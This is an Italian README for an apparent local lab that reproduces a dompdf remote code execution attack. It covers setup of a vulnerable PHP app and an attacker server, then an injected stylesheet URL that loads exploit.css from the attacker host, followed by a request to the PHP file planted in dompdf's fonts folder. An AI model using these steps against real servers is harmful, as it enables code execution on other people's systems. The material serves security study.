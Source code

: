 # Guida All'Uso
## Setup del progetto
1. Entra all'interno della cartella project e lancia questi comandi:
   1. ```composer install```
   2. ```cp .env.example .env```
   3. ``` cd public/ && php -S localhost:8000```
   
2. In un nuovo terminale entra all'interno della cartella server_exploit e lancia questo comando:

    ```php -S localhost:9000```

## Comandi per eseguire l'attacco
1. Inietta codice malevolo:

    ```http://localhost:8000/pdf/make?data=%3Clink%20rel=stylesheet%20href=%27http://localhost:9000/exploit.css%27%3E```
2. Accedi al file con il codice malevolo:

    ```http://localhost:8000/dompdf/lib/fonts/exploitfont_normal_ab81032048ddcc3ce0513091997f6fe7.php```

